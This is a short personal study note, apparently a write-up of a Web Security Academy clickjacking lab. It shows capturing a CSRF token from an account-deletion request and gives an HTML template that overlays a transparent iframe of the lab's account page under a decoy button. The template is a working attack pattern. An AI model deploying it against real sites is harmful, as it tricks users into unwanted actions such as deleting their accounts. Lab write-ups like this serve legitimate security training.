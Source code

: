 ```yaml
---
sticker: emoji//1f97c
---
```

Based on the previous note: [[HOW TO CONSTRUCT A BASIC CLICKJACKING ATTACK|NOTE]]

![](cybersecurity/images/Pasted%2520image%252020241021153605.png)


If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![](cybersecurity/images/Pasted%2520image%252020241021155644.png)

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```
Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![](cybersecurity/images/Pasted%2520image%252020241021162011.png)
Once we send the exploit to the victim, lab's solved